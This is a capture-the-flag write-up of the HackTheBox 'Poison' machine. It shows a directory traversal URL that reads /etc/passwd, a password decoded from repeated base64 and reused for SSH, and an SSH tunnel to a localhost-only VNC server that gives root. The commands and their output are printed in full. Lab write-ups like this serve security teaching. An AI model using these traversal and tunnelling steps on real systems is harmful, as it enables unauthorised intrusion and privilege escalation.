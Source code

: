 ```yaml
---
layout: post
title:  "HackTheBox Writeup: Poison"
date:   2018-04-29 00:00:00 -0400
categories: master
---
```


It all starts off with an nmap scan:
```
nmap -sS -sV -T4 -p- 10.10.10.84 -v
[snip]
Nmap scan report for 10.10.10.84
Host is up (0.18s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
```

Let's take a look at port 80:

![Port 80 web server](https://i.imgur.com/2AGtDSF.png)

`listfiles.php` looks interesting. 

![File enumeration](https://i.imgur.com/JvIm9BR.png)

and `pwdbackup.txt` returns:

```
This password is secure, it's encoded atleast 13 times.. what could go wrong really.. 
Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU 
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS 
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW 
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs 
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy 
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G 
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw 
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa 
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k 
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk 
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT 
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz 
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW 
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO 
Ukd4RVdub3dPVU5uUFQwSwo= 
```
Which looks to be based64 encoded, probably encoded 13 times. So let's try it.

The final base64, which is `Q2hhcml4ITIjNCU2JjgoMA==` decodes to `Charix!2#4%6&8(0`, which is 
password to something, but what? Let's go back to the webserver. It's vulnerable to a 
directory traversal attack. We'll use this to get `/etc/passwd`.

The url `http://10.10.10.84/browse.php?file=/../../../../../../../etc/passwd` returns:
```
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $ # 
root:*:0:0:Charlie &:/root:/bin/csh toor:*:0:0:Bourne-again Superuser:/root: 
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin operator:*:2:5:System 
&:/:/usr/sbin/nologin bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin 
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin 
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin news:*:8:8:News 
Subsystem:/:/usr/sbin/nologin man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin 
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin smmsp:*:25:25:Sendmail 
Submission User:/var/spool/clientmqueue:/usr/sbin/nologin mailnull:*:26:26:Sendmail Default 
User:/var/spool/mqueue:/usr/sbin/nologin bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin 
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin proxy:*:62:62:Packet 
Filter pseudo-user:/nonexistent:/usr/sbin/nologin _pflogd:*:64:64:pflogd privsep 
user:/var/empty:/usr/sbin/nologin _dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin 
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico 
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin auditdistd:*:78:77:Auditdistd 
unprivileged user:/var/empty:/usr/sbin/nologin www:*:80:80:World Wide Web 
Owner:/nonexistent:/usr/sbin/nologin _ypldap:*:160:160:YP LDAP unprivileged 
user:/var/empty:/usr/sbin/nologin hast:*:845:845:HAST unprivileged 
user:/var/empty:/usr/sbin/nologin nobody:*:65534:65534:Unprivileged 
user:/nonexistent:/usr/sbin/nologin _tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin 
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin avahi:*:558:558:Avahi 
Daemon User:/nonexistent:/usr/sbin/nologin cups:*:193:193:Cups 
Owner:/nonexistent:/usr/sbin/nologin charix:*:1001:1001:charix:/home/charix:/bin/csh 
```
We have a user called Charix. Since port 22 is also open, let's see if we can ssh into 
Charix.

![ssh into Poison as Charix](https://i.imgur.com/P4to0do.png)

Success. That `secret.zip` looks suspicious, but looks like it's password protected, and the 
version of zip on this machine doesn't allow for use of passwords.

![Older version of Zip doesn't allow for passwords](https://i.imgur.com/Ni46EUz.png)

We'll have to transfer it to our machine. Since the file size is tiny, we can just base64 
encode this, copy it to our machine, and base64 decode. (Remember to remove newlines from the 
Base64)

![Using Base64 to transfer file to kali machine](https://i.imgur.com/PaNrT4H.png)

The password, of course, is the same one we decoded earlier. Even though it's non-ASCII, I 
have a funny feeling it's 
another password, but to where?

![A non-ascii password](https://i.imgur.com/1iJPB2X.png)


The `ps -aux` command returns the line:
```
root   529   0.0  0.9  23620  8868 v0- I    03:14   0:00.04 Xvnc :1 -desktop X -httpd 
/usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry
```
And `sockstat -l` returns the lines:
```
root     Xvnc       529   1  tcp4   127.0.0.1:5901        *:*
root     Xvnc       529   3  tcp4   127.0.0.1:5801        *:*
```

So, the password we got from the zip file above probably allows us to log in as root via Xvnc. 
The problem is that  this machine is only accepting connections to port 5901 from the 
localhost. Traffic is unencrypted from the VNC viewer and server, so one method to encrypt 
traffic is to create an ssh tunnel. The command below will set up the appropriate tunnel.
```
root@kali:~# ssh charix@10.10.10.84 -L 6999:localhost:5901
Password for charix@Poison:
Last login: Sat May 19 03:18:03 2018 from 10.10.14.196
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017
```
This is a local port forward that will forward traffic from port 6999 on our machine to 5901 
on Poison. To connect, we issue the following command from our kali machine.

```
root@kali:~# vncviewer 127.0.0.1:6999 -passwd secret
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Authentication successful
Desktop name "root's X desktop (Poison:1)"
```

And finally, we're in as root.

![Root access on Poison](https://i.imgur.com/l6uQMf7.png)

